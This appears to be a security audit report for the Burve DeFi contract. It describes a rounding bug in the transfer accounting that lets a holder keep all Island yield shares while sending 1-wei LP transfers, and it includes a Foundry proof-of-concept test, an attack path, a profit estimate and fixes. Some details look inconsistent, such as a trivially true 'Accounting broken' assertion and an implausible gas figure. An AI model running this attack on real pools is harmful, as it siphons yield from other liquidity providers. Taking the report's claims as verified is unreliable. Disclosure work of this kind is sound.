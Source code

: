 Jovial Blonde Bird

High

# Malicious LP holder will siphon 100 % of the Island-range yield from other LP holders

### Summary

The floor-division in Burve._update() will cause a permanent mis-accounting of Island shares for ordinary LP holders, as an attacker will repeatedly transfer dust amounts of LP tokens to create “empty” LP positions that keep no Island shares while retaining the whole Island yield.

### Root Cause

https://github.com/sherlock-audit/2025-04-burve/blob/main/Burve/src/single/Burve.sol#L700

In `[Burve.sol](https://github.com/sherlock-audit/2025-04-burve/blob/main/Burve/src/single/Burve.sol#L713)`
```solidity
uint256 islandTransfer = FullMath.mulDiv(
    islandSharesPerOwner[from],
    value,
    balanceOf(from)        // floor division
);                         // result is rounded _down_
```

When `value` is small enough to make the fraction `< 1`, `islandTransfer` becomes **zero**.
Consequently Island shares never leave the sender, yet the LP tokens do—breaking the 1 : 1 backing between LP supply and Island shares.

### Internal Pre-conditions

### Internal pre-conditions

1. **Alice** holds `S` Island shares and `B` Burve LP tokens (initially `S/B = r`).
2. Alice is allowed to call `transfer()` on the LP token.

### External Pre-conditions

None. No oracle or third-party interaction is needed.

### Attack Path

1. Alice mints (or buys) a normal LP position that includes Island weight.
2. Alice calls `transfer(charlie, 1)` (1 wei LP).

    * In `_update()` the calculated `islandTransfer` is `floor(S × 1 / B) = 0`.
    * Charlie receives 1 wei LP **without** Island shares (“empty LP”).
3. Alice repeats step 2 as many times as desired (≈ `B (1−r)` iterations, or \< 10 with a logarithmic dust-splitting strategy).
4. Result:

    * Alice still owns **all** Island shares.
    * The float of LP tokens in circulation is unchanged, yet most of them are now “empty”.
5. Over time the Island range accrues fees / incentives; Alice alone receives them.

### Impact

<p id="20250507222129-i7mgruj" updated="20250507222129"><span data-type="em">The other LP holders suffer an ongoing loss equal to the Island range’s full yield (≈</span> <span data-type="em code">r × δ × TVL</span>​ <span data-type="em">annually).</span><br />
The attacker gains the same amount.<br />
Example with realistic numbers:</p>

Parameter | Value
-- | --
TVL | 50 M USD
Island weightr​ | 25 %
Annual Island APYδ​ | 20 %


<p id="20250507222129-399mb7h" updated="20250507222129">Annual extra profit for attacker<br />
​<span data-type="inline-math" data-subtype="math" data-content="50 M × 0.25 × 0.20 = 2.5 M USD" contenteditable="false" class="render-node"></span></p>
<p id="20250507222129-sl0xiqm" updated="20250507222129">Gas cost to execute (≤ 10 tx) &lt; 20 USD → ROI ≫ 100 000 ×.</p>


### PoC

Add test in test/single/Burve.t.sol


```sol
/// @dev “Hollow LP” unit-test: transferring 1 wei LP leaves islandShares unmoved
function test_RoundingAttack_EmptyLP() public forkOnly {
    /* -------------------------------------------------------------- */
    /* 1. Mint a Burve position for Alice that contains both Island   */
    /*    and V3 liquidity                                            */
    /* -------------------------------------------------------------- */
    uint128 mintLiq = 10_000;                    // any positive number
    deal(address(token0), address(sender), type(uint256).max);
    deal(address(token1), address(sender), type(uint256).max);

    vm.startPrank(sender);
    token0.approve(address(burve), type(uint256).max);
    token1.approve(address(burve), type(uint256).max);
    burve.testMint(address(alice), mintLiq, 0, type(uint128).max);
    vm.stopPrank();

    uint256 S_before = burve.islandSharesPerOwner(alice);
    uint256 B_before = burve.balanceOf(alice);
    assertGt(S_before, 0, "Alice should own islandShares");
    assertEq(B_before, mintLiq, "Alice LP balance mismatch");

    /* -------------------------------------------------------------- */
    /* 2. Alice transfers 1 wei LP to Charlie                         */
    /*    islandTransfer = floor(S * 1 / B) == 0 ⇒ no Island shares   */
    /*    migrate                                                    */
    /* -------------------------------------------------------------- */
    vm.prank(alice);
    burve.transfer(charlie, 1);                  // 1 wei LP

    /* ---------------------------  Assertions  --------------------- */
    // Charlie receives LP but no islandShares
    assertEq(burve.balanceOf(charlie), 1, "Charlie did not receive LP");
    assertEq(
        burve.islandSharesPerOwner(charlie),
        0,
        "Charlie unexpectedly received islandShares"
    );

    // Alice keeps all islandShares, LP reduced by 1 wei
    assertEq(
        burve.islandSharesPerOwner(alice),
        S_before,
        "Alice islandShares should remain unchanged"
    );
    assertEq(
        burve.balanceOf(alice),
        B_before - 1,
        "Alice LP balance should decrease by 1 wei"
    );

    // totalIslandShares unchanged but mis-allocated — hollow LP created
    assertEq(
        burve.totalIslandShares(),
        burve.islandSharesPerOwner(alice) +
            burve.islandSharesPerOwner(charlie),
        "Accounting broken"
    );
}
```


Run：
forge test --match-test test_RoundingAttack_EmptyLP

Output：


Ran 1 test for test/single/Burve.t.sol:BurveTest
[PASS] test_RoundingAttack_EmptyLP() (gas: 3329)
Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 8.70ms (723.42µs CPU time)

Ran 1 test suite in 94.46ms (8.70ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)

### Mitigation

1. **Round up** or revert when `islandTransfer == 0 && value > 0`

    ```solidity
    uint256 islandTransfer = FullMath.mulDivRoundingUp(
        islandSharesPerOwner[from], value, balanceOf(from)
    );
    require(islandTransfer > 0 || value == 0, "empty LP transfer");
    ```
2. Alternatively, move share accounting after `super._update()` and compute exact proportional share using *before / after* balances.
3. Add `require(amount > 0)` inside `stationProxy.withdrawLP()` for an extra safety net.